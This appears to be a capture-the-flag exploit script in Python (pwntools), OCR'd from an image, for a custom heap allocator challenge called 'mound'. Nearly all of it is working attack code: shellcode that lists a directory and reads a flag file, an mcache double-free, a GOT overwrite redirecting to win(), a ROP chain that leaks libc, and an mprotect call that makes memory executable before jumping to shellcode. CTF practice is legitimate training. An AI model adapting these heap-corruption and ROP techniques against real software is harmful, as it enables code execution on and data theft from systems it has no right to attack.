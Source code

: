 ```python

O_DIRECTORY, FLAG_LEN = 0x10000, 100 # use reasonably long values here
sc = '' # step 1: getting a directory listing
sc+= shellcraft.pushstr('/pwn') # put "/pwn" on the stack
sc+= shellcraft.openat(0, 'rsp', O_DIRECTORY) # use openat in lieu of open. rsp because of pushstr
sc+= 'mov QWORD PTR [{}], rax\n'.format(mound_data.base) # Store the resultant fd _somewhere_ accessible (mound_data.base)
sc+= shellcraft.getdents64('rax', mound_data.dents, 0x10000) # use getdents to list directory
# step 2: loop through the dents data to find the flag filename
sc+=shellcraft.mov('rax', mound_data.dents)
sc+= 'loop:\n'
sc+= 'inc rax\n'
sc+= 'cmp DWORD PTR [rax], {}\n'.format(hex(u32('.txt')))
sc+= 'jne loop\n'
# step 3: open the flag file, read to _somewhere_ (mound_arena.base), and write to stdout
sc+= 'lea rbx, [rax-0x20]\n'
sc+= 'mov rax, QWORD PTR [{}]\n'.format(mound_data.base)
sc+= shellcraft.openat('rax', 'rbx', 0)
sc+= shellcraft.read('rax', mound_arena.base, FLAG_LEN)
sc+= shellcraft.write(1, mound_arena.base, FLAG_LEN)
sc = asm(sc) # don't call asm() twice
add(1+csize2midx(request2size(len(sc))), 8, sc) # dump shellcode somewhere in mound_data for later use

# The Obvious Solution: mcache dup --> mound_arena.top overwrite --> GOT table edit to win()
def rm_id(id: int): # remove an arbitrary 56-bit id from mound_arena.ids[]
    strdup(b'a'*0x17, 5)
    strdup(b'a'*0x17, 6)
    edit(midxs.prev_size_editor, pack(r64())[:7].rjust(0x17, b'a'))
    free(midxs.fakeid_provider)
    edit(midxs.prev_size_editor, pack(id)[:7].rjust(0x17,b'a'))
    add(midxs.strdup, 7, b'a'*0x10)
for _ in range(3): r64bit() # There have been 3 rand64bit() calls so far; account for them.
while 1: # try adding until there's an ID with a null MSB
    add(midxs.mcache_dup, 0xf, b'hi')
    if not ((chunk_id := r64bit()) >> 56): break
free(0xf)
rm_id(chunk_id)
free(0xf) # mcache dup
add(midxs.mcache_dup, 0xe, fit(mound_data.mcache, mound_arena.mcache-0x10)) # overwrite ->next
add(midxs.mcache_dup, 0xd, 'hi')
add(midxs.mcache_dup, 0xc, fit(mound_data.mcache, context.binary.got['setvbuf'])) # overwrite .top
add(midxs.got_overwriter, 0xb, pack(context.binary.sym.win)) # overwrite got['scanf']

# win() will execute. Leak libc in the first cycle.
R = ROP(context.binary)
R.raw(0x48*b'a')
R.puts(context.binary.got['read'])
R.win()
r.sendlineafter(';)\n', R.chain())
context.libc.symbols['read'] = unpack(r.recvline()[:6], 'all')
# Using libc, change 0xbeef* to an rwx page, and jump to the shellcode that was allocated there earlier on.
R = ROP(context.libc)
R.raw(0x48*b'a')
R.mprotect(mound_data.base, 0x400000, 7)
R.call(mound_data.shellcode)
r.sendlineafter(';)\n', R.chain())
# get flag
print(r.recvall())
```
